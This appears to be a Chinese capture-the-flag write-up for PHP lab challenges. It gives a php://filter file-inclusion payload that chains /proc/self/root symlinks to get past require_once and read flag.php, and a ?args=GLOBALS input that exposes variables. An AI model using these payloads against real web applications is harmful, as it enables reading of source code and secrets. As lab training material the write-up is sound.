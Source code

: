 ### 伪协议（考点:伪协议读取、系统进程）

**提示：**伪协议读取flag.php，/proc/self指向当前进程的。

**描述：**? [传送门](http://pxlua4a1.lab.aqlab.cn/) ?

> **require_once () 语句在脚本执行期间包含并运行指定文件** (通俗一点，括号内的文件会执行一遍)。 此行为和 require () 语句类似，唯一区别是如果该文件中的代码已经被包含了，则不会再次包含。 有关此语句怎样工作参见 require () 的文档。
>
> **/proc/self指向当前进程的/proc/pid/，/proc/self/root/是指向/的符号链接，想到这里，用伪协议配合多级符号链接的办法进行绕过，多次包含使其失效。**

读取语句：`?file=php://filter/read=convert.base64-encode/resource=`

payload:`?file=php://filter/read=convert.base64-encode/resource=file:///proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/flag.php`

难

### 超全局变量（考点：超全局变量）

**提示：**利用超全局变量GLOBALS $GLOBALS — 引用全局作用域中可用的全部变量

**描述：**? [传送门](http://u31r26a2.lab.aqlab.cn/) ?

```
?args=GLOBALS
```

### 命令执行（考点：命令执行）

**提示：**config.php文件命令执行

**描述：**? [传送门](http://uu0lo9a3.lab.aqlab.cn/) ?

